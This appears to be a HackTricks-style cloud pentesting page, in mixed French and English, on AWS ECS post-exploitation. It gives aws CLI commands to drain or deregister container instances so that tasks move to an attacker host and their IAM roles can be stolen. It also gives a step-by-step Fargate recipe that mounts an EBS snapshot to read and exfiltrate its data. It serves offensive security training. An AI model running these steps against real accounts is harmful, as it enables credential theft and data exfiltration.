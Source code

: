 # AWS - ECS Post-exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## ECS

Pour plus d'informations, voir :

{{#ref}}
../../aws-services/aws-ecs-enum.md
{{#endref}}

### Rôles IAM de l'hôte

In ECS an **IAM role can be assigned to the task** running inside the container. **If** the task is run inside an **EC2** instance, the **EC2 instance** will have **another IAM** role attached to it.\
Which means that if you manage to **compromise** an ECS instance you can potentially **obtain the IAM role associated to the ECR and to the EC2 instance**. For more info about how to get those credentials check:

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf.html
{{#endref}}

> [!CAUTION]
> Note that if the EC2 instance is enforcing IMDSv2, [**according to the docs**](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-v2-how-it-works.html), the **response of the PUT request** will have a **hop limit of 1**, making impossible to access the EC2 metadata from a container inside the EC2 instance.

### Privesc to node to steal other containers creds & secrets

But moreover, EC2 uses docker to run ECs tasks, so if you can escape to the node or **access the docker socket**, you can **check** which **other containers** are being run, and even **get inside of them** and **steal their IAM roles** attached.

#### Making containers run in current host

Furthermore, the **EC2 instance role** will usually have enough **permissions** to **update the container instance state** of the EC2 instances being used as nodes inside the cluster. An attacker could modify the **state of an instance to DRAINING**, then ECS will **remove all the tasks from it** and the ones being run as **REPLICA** will be **run in a different instance,** potentially inside the **attackers instance** so he can **steal their IAM roles** and potential sensitive info from inside the container.
```bash
aws ecs update-container-instances-state \
--cluster <cluster> --status DRAINING --container-instances <container-instance-id>
```
La même technique peut être effectuée en **désenregistrant l'instance EC2 du cluster**. C'est potentiellement moins discret mais cela **forcera les tasks à s'exécuter sur d'autres instances :**
```bash
aws ecs deregister-container-instance \
--cluster <cluster> --container-instance <container-instance-id> --force
```
Une dernière technique pour forcer la ré-exécution des tasks consiste à indiquer à ECS que le **task ou container a été arrêté**. Il existe 3 API potentielles pour le faire :
```bash
# Needs: ecs:SubmitTaskStateChange
aws ecs submit-task-state-change --cluster <value> \
--status STOPPED --reason "anything" --containers [...]

# Needs: ecs:SubmitContainerStateChange
aws ecs submit-container-state-change ...

# Needs: ecs:SubmitAttachmentStateChanges
aws ecs submit-attachment-state-changes ...
```
### Voler des informations sensibles depuis des conteneurs ECR

L'instance EC2 disposera probablement aussi de l'autorisation `ecr:GetAuthorizationToken`, lui permettant de **télécharger des images** (vous pourriez y chercher des informations sensibles).





### Monter un snapshot EBS directement dans une task ECS (configuredAtLaunch + volumeConfigurations)

Abusez de l'intégration native ECS ↔ EBS (2024+) pour monter le contenu d'un snapshot EBS existant directement dans une nouvelle task/service ECS et lire ses données depuis l'intérieur du container.

- Nécessite (minimum) :
- ecs:RegisterTaskDefinition
- L'un de : ecs:RunTask OR ecs:CreateService/ecs:UpdateService
- iam:PassRole sur :
- ECS infrastructure role used for volumes (policy: `service-role/AmazonECSInfrastructureRolePolicyForVolumes`)
- Task execution/Task roles référencés par la task definition
- Si le snapshot est chiffré avec une CMK : permissions KMS pour le rôle d'infra (la AWS managed policy ci‑dessus inclut les KMS grants requis pour les clés gérées par AWS).

- Impact : Lire le contenu arbitraire du disque depuis le snapshot (par ex., fichiers de base de données) à l'intérieur du container et exfiltrate via network/logs.

Étapes (exemple Fargate) :

1) Créer le ECS infrastructure role (s'il n'existe pas) et attacher la managed policy :
```bash
aws iam create-role --role-name ecsInfrastructureRole \
--assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ecs.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
aws iam attach-role-policy --role-name ecsInfrastructureRole \
--policy-arn arn:aws:iam::aws:policy/service-role/AmazonECSInfrastructureRolePolicyForVolumes
```
2) Enregistrer une task definition avec un volume marqué `configuredAtLaunch` et le monter dans le container. Exemple (affiche le secret puis dort):
```json
{
"family": "ht-ebs-read",
"networkMode": "awsvpc",
"requiresCompatibilities": ["FARGATE"],
"cpu": "256",
"memory": "512",
"executionRoleArn": "arn:aws:iam::<ACCOUNT_ID>:role/ecsTaskExecutionRole",
"containerDefinitions": [
{"name":"reader","image":"public.ecr.aws/amazonlinux/amazonlinux:latest",
"entryPoint":["/bin/sh","-c"],
"command":["cat /loot/secret.txt || true; sleep 3600"],
"logConfiguration":{"logDriver":"awslogs","options":{"awslogs-region":"us-east-1","awslogs-group":"/ht/ecs/ebs","awslogs-stream-prefix":"reader"}},
"mountPoints":[{"sourceVolume":"loot","containerPath":"/loot","readOnly":true}]
}
],
"volumes": [ {"name":"loot", "configuredAtLaunch": true} ]
}
```
3) Créez ou mettez à jour un service en passant le snapshot EBS via `volumeConfigurations.managedEBSVolume` (requiert iam:PassRole sur le rôle infra). Exemple:
```json
{
"cluster": "ht-ecs-ebs",
"serviceName": "ht-ebs-svc",
"taskDefinition": "ht-ebs-read",
"desiredCount": 1,
"launchType": "FARGATE",
"networkConfiguration": {"awsvpcConfiguration":{"assignPublicIp":"ENABLED","subnets":["subnet-xxxxxxxx"],"securityGroups":["sg-xxxxxxxx"]}},
"volumeConfigurations": [
{"name":"loot","managedEBSVolume": {"roleArn":"arn:aws:iam::<ACCOUNT_ID>:role/ecsInfrastructureRole", "snapshotId":"snap-xxxxxxxx", "filesystemType":"ext4"}}
]
}
```
4) Lorsque la task démarre, le container peut lire le contenu du snapshot au mount path configuré (e.g., `/loot`). Exfiltrate via the task’s network/logs.

Cleanup:
```bash
aws ecs update-service --cluster ht-ecs-ebs --service ht-ebs-svc --desired-count 0
aws ecs delete-service --cluster ht-ecs-ebs --service ht-ebs-svc --force
aws ecs deregister-task-definition ht-ebs-read
```
{{#include ../../../../banners/hacktricks-training.md}}
